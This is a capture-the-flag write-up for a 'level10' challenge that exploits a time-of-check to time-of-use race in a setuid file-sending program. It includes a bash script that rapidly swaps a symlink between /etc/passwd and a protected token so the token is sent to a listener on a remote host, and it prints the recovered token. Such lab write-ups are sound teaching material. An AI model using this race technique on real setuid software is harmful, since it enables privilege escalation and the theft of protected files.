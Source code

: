 ## level10

This is the most interesting challenge. Once again we have an unreadable token file and a `level10` executable with the setuid bit set.


```
$ ./level10
./level10 file host
    sends file to host if you have access to it
```

The disassembled code is much bigger, but it indeed looks like a file sending program. It first checks with `access` if we have the rights to the file, then connects to port `6969` of the given host and sends the file.

The first step was to launch a server on port `6969` on the host machine. We used an early version of the IRC server but there are probably easier services to setup.

Now comes the TOCTOU attack (time-of-check to time-of-use). Since the program doesn't run infinitely fast, there is a gap between the `access` check and the sending of the file. We can exploit it by rotating symbolic links. One link must be a file readable by us, another must be `token`.

```bash
#!/bin/bash

while true; do
    ln -sf /etc/passwd /tmp/exploit_link
    ln -sf /home/user/level10/token /tmp/exploit_link
done &

/home/user/level10/level10 /tmp/exploit_link 10.x.x.x
kill $(jobs -p)
```

Running this script will sometimes fail the `access` check and sometimes fail the `read` of the file. But if the timing is right, it will `access` `/etc/passwd` and `read+send` `/home/user/level10/token` to the host machine: `woupa2yuojeeaaed06riuj63c`.